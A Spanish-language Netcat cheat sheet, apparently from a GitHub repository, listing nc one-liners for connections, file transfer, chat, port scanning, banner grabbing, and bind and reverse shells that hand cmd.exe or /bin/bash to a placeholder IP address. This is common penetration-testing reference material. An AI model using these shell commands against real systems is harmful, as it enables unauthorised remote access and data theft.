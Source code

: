 # Netcat Cheat Sheet

#### Conectarnos a un puerto de un host

- `nc -nv <IPAddress> <Port>`: Conexión a un host.

#### Transferir un archivo

- `nc -nvlp <Port> > output.txt`: Host a recibir el archivo en el puerto especificado.

- `nc -nv <IPAddress> <Port> < input.txt`: Host que envia el archivo al host destino.

#### Chatear entre hosts

- `nc -nvlp <Port>`: Escuchando la conexión.

- `nc -nv <IPAddress> <Port>`: Host se conecta al host al puerto abierto.

#### Bind Shell (Windows)

- `nc -nvlp <Port> -e cmd.exe`: Escuchando la conexión.

- `nc -nv <IPAddress> <Port>`: Conexión a la shell.

#### Bind Shell (Linux)

- `nc -nvlp <Port> -e /bin/bash`: Escuchando la conexión.

- `nc -nv <IPAddress> <Port>`: Conexión a la shell.

#### Reverse Shell (Windows)

- `nc -nvlp <Port>`: Escuchando la conexión.

- `nc -nv <IPAddress> <Port> -e cmd.exe`: Conexión al host y mandamos la shell.

#### Reverse Shell (Linux)

- `nc -nvlp <Port>`: Escuchando la conexión.

- `nc -nv <IPAddress> <Port> -e /bin/bash`: Conexión al host y mandamos la shell.

#### Escanear Puertos

- `nc -vz <IPAddress> <Port-Range>`: Escanear la IP del host con el rango de puertos.

#### Banner Grabbing

- `echo "" | nc -nv -w1 <IPAddress> <Port>`: Banner Grabbing.

---
:::info
[:arrow_left: Regresar](https://github.com/m4lal0/cheatsheets)
:::